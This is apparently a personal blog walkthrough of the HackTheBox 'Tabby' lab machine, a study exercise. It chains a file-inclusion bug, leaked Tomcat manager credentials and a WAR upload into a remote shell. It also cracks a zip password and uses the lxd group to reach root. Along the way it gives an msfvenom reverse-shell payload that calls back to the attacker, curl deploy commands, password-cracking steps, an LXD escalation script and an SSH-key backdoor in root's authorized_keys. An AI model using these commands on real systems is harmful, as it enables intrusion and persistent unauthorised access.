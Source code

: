 ```yaml
---
layout: post
title: HackTheBox Tabby walkthrough
gh-repo: c00rni/c00rni.github.io
gh-badge: [star, fork, follow]
tags: [enumeration, hackthebox, linpeas, ssh, lxd, tomcat, lfi, johntheripper]
comments: true
---
```



This is a write up about Tabby box from HackThebox. The machine ip address is 10.10.10.194 and is rated as easy by the community. In short, I exploited a Local File Inclusion (LFI) vulnerability to get the admin web server credentials. I then used those credentials to upload a file on the server and get remote code execution. I brute force a protected file and found the password of an user. The user I had compromise was member of the lxd group wich allowed me to elevate my privileges to root.


![into_card.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/8ef266cc2812400c8683218347a1d3fc.png)

# Enumeration

As always I started by port enumeration.


![full_scan.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/987987c4fcf945e7aa64b25d8536798e.png)




![detail_scan.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/1f617483764c4fbba3a9f9b7a24f0afd.png)



## Port 80
I browser to the main website and found a [LFI](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion).



![suspicious_url.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/d980c4ba589345328af65147252aa056.png)



![lfi.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/27fc66fd9f9447228f593b962893566b.png)

## Port 8080
The seconde HTTP server had a basic installation of Tomcat 9. I did my homework and found Tomcat versions 7 to 9 were vulnerable to remote code execution if I could upload a malicious WAR file into the server.

Tomcat 9 allows users to upload WAR files into the server to  install web applications (see: [remote deploy documentation](http://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_A_New_Application_Archive_(WAR)_Remotely)) but users must be authenticated and have manager rights.
I used the LFI discovered previously to get access to `tomcat-users.xml` configuration file to get users credentials and rights.

![tomcat-users.xml.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/e2780244817345728fc064069c33ee3a.png)

# Foothold
Tomcat is an open-source implementation of the Java servlet technology and can run jsp files. I used `msfvenom` to create a WAR file containing a malicious jsp document and upload the war file with curl.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=YOUR-IP-ADDR -f war -o reverseshell.war
curl -v -u 'tomcat':'$3cureP4s5w0rd123!' -T reverseshell.war http://10.10.10.194:8080/manager/text/deploy?path=/reverseshell4444&update=true
```

I used netcat to listen on port 4444 and browser to my newly upload application (http://10.10.10.194:8080/reverseshell4444) to get a shell.


![tomcat_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/e92487ac5644472cb38809675ee6b619.png)

# Normal user privilege escalation
I found a backup file protected by a password own by ash. 



![found_backup_file.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/c0fbaabf39734fd8aa4c5d8ae1039119.png)



Any user could read the file so I uploaded it on my machine and brute force the password with [john The Ripper](https://www.openwall.com/john/).

```bash
/usr/sbin/zip2john 16162020_backup.zip  > zip.hash
john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash
```

![backup_password.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/36d527c32c9c49d1882a6f9d650e8003.png)

I used the command `su ash` and log in with the password `admin@it`.

![ash_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/680afd5896ff4d52b1efe8d6e1cf2c93.png)

# Root Privilege escalation
LXD is Ubuntu’s container manager utilising linux containers. It could be considered to act in the same sphere as docker. LXD group should by no means contain normal users because there is multiple trivial ways to escalate privileges to root.

For the [lxd exploit](https://www.exploit-db.com/exploits/46978) to work properly I needed to upload a container image into the box since Tabby wasn't connected to the internet.

```bash
wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
chmod +x build-alpine
./build-alpine
searchsploit -m linux/local/46978.sh
```

I downloaded '46978.sh' script and the container image from my machine into ash root directory and got a root shell on the container.

```
chmod +x 46978.sh
./46978.sh -f CONATAINER_IMAGE
```

![root_container.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/014af8c4a7fd4c54a6b4895471d07390.png)

The file system of Tabby is accessible from `/mnt/root/` and I could make any modification on the box since were root on the container. I created a pair of SSH key with `ssh-keygen` command and copy to content of the public key into `/mnt/root/.ssh/authorized_keys` file. 

I SSH into the box as root with the priviate key and got a shell.


![root_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/5015ddcdcd06472190bc2e70b88565c9.png)

I like realistic box and this box is definitely one of them. I learned a lot about tomcat and lxd privilege root escalation.

# References
- [Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)
- [lxd privilege escalation exploit](https://www.exploit-db.com/exploits/46978)
- [Automated Enumaration linux tool](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)
- [Tomcat 9 remote deploy documentation](http://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_A_New_Application_Archive_(WAR)_Remotely)
- [John the ripper](https://www.openwall.com/john/)
